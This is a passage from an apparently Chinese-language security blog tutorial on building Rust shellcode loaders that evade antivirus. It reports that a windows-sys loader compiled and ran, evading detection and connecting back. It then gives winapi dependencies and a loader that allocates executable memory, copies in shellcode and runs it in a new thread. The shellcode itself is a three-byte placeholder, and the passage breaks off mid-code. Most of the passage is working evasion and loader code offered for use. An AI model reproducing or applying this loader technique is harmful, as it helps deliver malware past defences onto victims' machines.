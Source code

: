 ```bash
            windows_sys::Win32::System::Memory::MEM_RELEASE,
        );
        windows_sys::Win32::Foundation::CloseHandle(thread_handle);
    }
}
```

之后编译运行，成功免杀上线

[![](assets/1699257255-652c924c0fc5ec3d5a2d492dac79fd01.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231104232126-d24f6e70-7b25-1.png)

### winapi

和==windows-sys==一样，首先还是在==Cargo.toml==引入依赖

```bash
winapi = { version = "0.3.9", features = ["winuser", "memoryapi", "synchapi", "handleapi", "errhandlingapi", "processthreadsapi"] }
```

实现代码如下

```bash
#![windows_subsystem = "windows"]

use winapi::um::memoryapi::VirtualAlloc;
use winapi::um::processthreadsapi::CreateThread;
use winapi::um::synchapi::WaitForSingleObject;

fn main() {
    // 存储新进程的 id
    let mut thread_id = 0;

    let shellcode: [u8; 3] = [0xfc, 0x48, 0x83];  // shellcode

    unsafe {
        // 分配可执行内存
        let mem_alloc = VirtualAlloc(std::ptr::null_mut(), shellcode.len(), 0x00001000, 0x40);
        std::ptr::copy(shellcode.as_ptr() as *const u8, mem_alloc as *mut u8, shellcode.len());

        // 执行shellcode
```